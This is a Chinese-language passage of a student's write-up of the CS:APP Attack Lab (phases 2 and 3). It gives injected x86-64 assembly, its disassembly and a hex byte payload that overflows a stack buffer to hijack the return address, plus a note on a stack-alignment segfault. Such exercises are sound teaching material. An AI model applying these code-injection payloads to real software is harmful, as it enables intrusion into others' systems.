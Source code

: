 根据 gdb，发现 touch2 判断通过之后还需要执行一个 validate 函数，这个函数调用 notify_server 函数，执行这个函数时发生了段错误，可能是我们注入的 touch2 地址破坏了什么东西

看样子我们不能溢出太多，不然会造成莫名其妙的破坏，于是我考虑另一个方案，跳到我注入的代码之后，我先把 `%rsp` 减少 8，然后再把 touch 地址写到 `(%rsp)` 处，这样就确保对栈破坏最小

```assembly
    movq $0x59b997fa, %rdi
    add $-8, %rsp
    movq $0x004017ec, (%rsp)
    ret
```

得到二进制：

```

ans2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	48 83 c4 f8          	add    $0xfffffffffffffff8,%rsp
   b:	48 c7 04 24 ec 17 40 	movq   $0x4017ec,(%rsp)
  12:	00
  13:	c3                   	ret

```

构造

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 c7 c7 fa 97 b9 59 48 83 c4 f8 48 c7 04 24 ec 17 40 00 c3
8c dc 61 55
0a
```

终于通过

不过后续在做 Phase 3 的时候实在好奇为什么不能再往上多修改一些栈数据，不能多修改的话可能会影响 Phase 3 的发挥。

在 gdb 中，触发段错误后，使用 disas 看到了触发段错误的指令：`movaps %xmm0,-0x40(%rbp)` 查看 `%rbp` 的值是正常的，应该不是引用了非法内存，这就很奇怪了，于是询问 ai 得知，`movaps` 这个涉及到 `%xmm0`（涉及到的原因应该不是浮点运算，应该是使用 `%xmm0` 做向量运算），这个指令要求目的地址按 16 字节对齐，一般情况下编译器会自动保证这里是满足对齐要求的，但是我们之前修改了 `%rsp` ，可能破坏了对齐

### Phase 3

这次要求我们让程序跳转到 touch3，要求我们不仅注入代码还要注入特定字符串，并传递字符串指针作为 touch3 的参数

cookie 对应的 ascii 码的十六进制表示为 `0x6166373939623935`，然后再加一个 `00` 结尾。首先一个问题是这个字符串数据放在哪里。一开始怕破坏太多栈空间导致段错误（后来才知道是对齐的原因），所以考虑把数据放在栈中比较靠近底部的位置，然后在自己注入的代码中去注入数据：

```assembly
    movq $0x6166373939623935, %r8
    movq %r8, 0x55620000
    movq $0x00, 0x55620008
    movq $0x55620000, %rdi
    add $-8, %rsp
    movq $0x004018fa, (%rsp)
    ret
```
